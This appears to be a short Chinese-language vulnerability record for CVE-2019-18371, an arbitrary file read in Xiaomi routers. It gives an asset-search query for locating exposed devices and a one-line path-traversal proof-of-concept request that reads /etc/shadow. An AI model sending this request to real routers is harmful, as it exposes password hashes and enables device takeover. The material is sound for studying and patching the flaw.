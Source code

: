 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](./images/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](./images/202207151106800.png)